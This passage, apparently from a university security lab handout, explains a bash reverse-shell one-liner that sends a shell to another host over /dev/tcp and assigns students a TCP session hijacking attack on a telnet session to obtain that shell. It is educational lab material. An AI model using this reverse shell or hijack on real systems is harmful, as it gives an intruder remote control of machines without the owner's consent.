 - "/bin/bash -i":istands for interactive, meaning that the shell must be interactive (must provide
    a shell prompt)
- "> /dev/tcp/10.0.2.4/9090": This causes the output (stdout) of the shell to be redirected
    to the tcp connection to10.0.2.4’s port 9090. The outputstdoutis represented by file descriptor
    number 1.
- "0<&1": File descriptor 0 represents the standard input (stdin). This causes thestdinfor the
    shell to be obtained from the tcp connection.


- "2>&1": File descriptor 2 represents standard errorstderr. This causes the error output to be
    redirected to the tcp connection.

In summary,"/bin/bash -i > /dev/tcp/10.0.2.4/9090 0<&1 2>&1"starts abashshell,
with its input coming from a tcp connection, and its standard and error outputs being redirected to the same
tcp connection. In Figure 4(a), when thebashshell command is executed on10.0.2.8, it connects back
to thenetcatprocess started on10.0.2.4. This is confirmed via the"Connection 10.0.2.
accepted"message displayed bynetcat.
The shell prompt obtained from the connection is now connected to thebashshell. This can be ob-
served from the difference in the current working directory (printed viapwd). Before the connection was
established, thepwdreturned/home/seed. Oncenetcatis connected tobash,pwdin the new shell
returns/home/seed/Documents(directory corresponding to where/bin/bashis started from). We
can also observe the IP address displayed in the shell prompt is also changed to 10.0.2.8, which is the same
as that on the server machine. The output fromnetstatshows the established connection.
The description above shows how you can set up a reverse shell if you have the access to the target
machine, which is thetelnetserver in our setup, but in this task, you do not have such an access. Your
task is to launch an TCP session hijacking attack on an existingtelnetsession between a user and the
target server. You need to inject your malicious command into the hijacked session, so you can get a reverse
shell on the target server. You can use either Netwox or Scapy for this task (using Scapy is more convenient).

## 4 Lab Report

You should submit a lab report. The report should cover the following sections:

- Design: The design of your attacks, including the attacking strategies, the packets that you use in
    your attacks, the tools that you used, etc.
- Observation and Explanation:Is your attack successful? How do you know whether it has suc-
    ceeded or not? What do you expect to see? What have you observed? Is the observation a surprise to
    you?


